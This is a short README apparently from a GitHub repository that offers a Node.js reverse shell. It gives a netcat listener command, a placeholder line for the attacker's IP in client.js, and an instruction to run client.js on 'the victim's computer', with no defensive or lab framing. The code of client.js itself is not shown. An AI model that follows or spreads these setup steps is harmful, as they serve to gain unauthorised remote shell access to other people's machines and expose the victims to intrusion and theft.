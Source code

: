 <hr>

![JavaScript](https://img.shields.io/badge/-JavaScript-F7B93E?style=flat-square&logo=javascript&logoColor=fff) ![Nodejs](https://img.shields.io/badge/-Node.js-43853d?style=flat-square&logo=Node.js&logoColor=white)
![GitHub repo size](https://img.shields.io/github/repo-size/JoPowerTech/ReverseShell?style=for-the-badge)
![GitHub forks](https://img.shields.io/github/forks/JoPowerTech/ReverseShell?style=for-the-badge)
# Reverse Shell

### Reverse Shell made in Node.js, to use open a port and listen to it. You can do this easily with netcat.

```
nc -l -p 8080
```

### Now put your IP in the IP variable inside the client.js file

```js
var IP = "YOU IP"
```

### Now run the client.js file on the victim's computer, make sure she has the node and lib child_process installed

<p align="center">
    <img style="margin: 150px" src="https://github.com/JoPowerTech/ReverseShell/blob/main/screenshot.png" alt="print" height="150px"/>
</p>
<hr>
